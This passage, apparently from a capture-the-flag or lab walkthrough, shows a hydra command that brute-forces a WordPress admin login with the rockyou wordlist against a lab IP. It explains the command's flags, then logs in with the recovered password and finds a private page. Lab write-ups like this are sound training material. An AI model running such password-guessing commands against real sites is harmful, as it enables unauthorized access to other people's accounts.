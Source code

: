 ![burpsuite](screenshots/5_burpsuite.png)

We can now use this with `hydra` to brute force the password for the `admin` user.

#### Exploitation

Using the following `hydra` command, you are able to get the password for the `admin` user:

```
$ hydra -l admin -P  /usr/share/wordlists/rockyou.txt 10.10.167.33 -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:S=location'
```

Here, we are using the `-l` to specify the username (`admin`), `-P` to specify the wordlist (`rockyou.txt`), and `-V` to use verbose mode.  We also use specify the type of the form using `http-form-post` and the paramters from Burpsuite.

![admin password](screenshots/6_hydra_admin_password.png)

Now, use these credentials to log in to the site.

Looking at the published pages, you will see that there is one private page:

![private page](screenshots/7_private_page.png)
